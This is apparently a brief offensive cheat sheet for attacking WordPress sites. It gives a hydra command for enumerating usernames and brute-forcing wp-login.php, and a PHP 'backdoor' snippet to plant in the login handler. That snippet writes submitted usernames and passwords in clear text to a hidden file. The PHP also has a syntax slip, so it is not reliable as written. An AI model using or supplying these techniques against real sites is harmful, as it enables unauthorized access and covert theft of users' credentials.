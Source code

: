 # Manual

TODO: Fill in the info

## Username Enumeration

```
$ hydra -V -L users.lst -p password <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

## Backdoor

- Backdoor user login forum to harvest the credentials in clear text.

```php
if(!empty($_POST['pwd']) {
	$credentials['user_password'] = $_POST['pwd'];
	// file_put_contents("wp-include/.user.php", "WP: " . $_POST['log']
	file_put_contents("/path/to/wp-include/.user.php", "<change_this>: " . $_POST['<change_this>']
			. " : " . $_POST['pwd'] . "\n", FILE_APPEND);
}
```
